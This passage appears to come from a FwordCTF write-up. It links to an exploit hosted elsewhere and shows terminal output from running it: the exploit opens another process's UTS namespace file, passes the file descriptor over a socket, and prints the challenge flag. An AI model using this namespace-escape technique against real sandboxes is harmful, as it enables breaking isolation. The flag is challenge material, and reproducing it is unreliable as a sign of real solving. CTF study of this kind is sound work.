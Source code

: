 You can find the full exploit [here](https://gist.github.com/00xc/800233590dda59ca60772034d898f916).

```
$ ./exploit 
buf: Hakke no Fuin Shiki 
[+] Got pid: 30
[*] Opening /proc/30/ns/uts
[*] Sending file descriptor = 4
We are doing flying raijin now!
[+] socket()
[+] connect()
[+] sendmsg() => 2
That was Flying Raijin Level 2 dattebayo
node name   = FwordCTF{Plzz_no_UnInTendEd:(NamEsPacEs_4re_Best_S3al_JutSu}
```
